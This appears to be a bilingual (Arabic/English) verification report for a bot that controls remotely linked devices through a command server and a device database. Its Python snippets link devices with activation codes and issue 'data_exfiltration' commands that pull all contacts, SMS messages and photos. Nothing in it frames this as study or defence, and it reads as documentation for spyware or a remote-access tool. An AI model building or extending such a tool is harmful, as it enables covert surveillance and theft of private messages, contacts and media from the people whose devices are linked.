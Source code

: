 # Bot Verification Report
# تقرير التحقق من البوت

## 🔍 **التحقق الشامل من البوت**

### **1. التحقق من الربط الحقيقي**

#### ✅ **ربط خادم الأوامر:**
- **الرابط الصحيح:** `http://localhost:8080` ✅
- **معالج الاتصال:** `check_connection()` ✅
- **إرسال الأوامر:** `send_command()` ✅
- **استقبال النتائج:** معالجة الاستجابات ✅

#### ✅ **ربط قاعدة البيانات:**
- **إدارة الأجهزة:** `DeviceManager` ✅
- **حفظ الأوامر:** `save_command()` ✅
- **تتبع النشاط:** `log_activity()` ✅
- **إدارة المستخدمين:** `is_user_authorized()` ✅

### **2. التحقق من الأوامر الحقيقية**

#### **📱 إدارة الأجهزة:**
```python
# ✅ ربط جهاز جديد
result = command_executor.send_command(device_id, "link_device", {
    "activation_code": code,
    "device_info": info
})

# ✅ اختيار الجهاز
device_id = get_selected_device(user_id)

# ✅ مراقبة الحالة
result = command_executor.get_device_status(device_id)
```

#### **📞 استخراج البيانات:**
```python
# ✅ جهات الاتصال
result = command_executor.send_command(device_id, "data_exfiltration", {
    "type": "contacts",
    "action": "backup_all",
    "format": "json"
})

# ✅ الرسائل النصية
result = command_executor.send_command(device_id, "data_exfiltration", {
    "type": "sms",
    "action": "backup_all",
    "format": "json"
})

# ✅ الوسائط
result = command_executor.send_command(device_id, "data_exfiltration", {
    "type": "media",
    "action": "backup_photos",
    "format": "binary"
})
```
